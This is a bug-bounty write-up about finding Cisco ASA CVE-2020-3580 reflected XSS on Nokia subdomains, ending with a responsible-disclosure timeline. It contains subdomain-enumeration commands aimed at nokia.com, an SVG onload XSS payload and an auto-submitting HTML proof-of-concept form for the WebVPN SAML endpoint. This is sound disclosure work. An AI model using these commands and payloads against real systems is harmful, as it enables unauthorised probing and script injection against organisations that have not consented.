 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


```
# Uncovering CVE-2020-3580 on Nokia Subdomains

Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **CVE-2020-3580**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

## Reconnaissance

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

### 1. Passive Reconnaissance

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

#### Subdomain Enumeration

I used tools like **Sublist3r**, **Amass**, and **Subfinder** to gather a large list of Nokia subdomains:

```bash
subfinder -d nokia.com -o nokia-subdomains.txt
amass enum -d nokia.com -o nokia-amass.txt
```

This provided a list of subdomains that are publicly known and might host various services, including VPN portals.

After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like **httpx**, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems:

```bash
cat subdomains.txt | httpx -status-code -title -tech-detect
```

Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

## Testing for CVE-2020-3580

To test for the vulnerability, we need to send a POST request to `/+CSCOE+/saml/sp/acs?tgname=a` with the **SAMLResponse** parameter set to a payload that triggers the XSS vulnerability. The payload is:

```html
'><svg/onload=alert('xss')>
```

### Steps to Reproduce:

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CVE-2020-3580 on Nokia Subdomains

I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

## Disclosure Timelines:

- **17 Aug 2022:** Vulnerability discovered and reported.  
- **18 Aug 2022:** Team confirmed receipt of the report.  
- **20 Aug 2022:** I earned a spot on their Hall of Fame page.


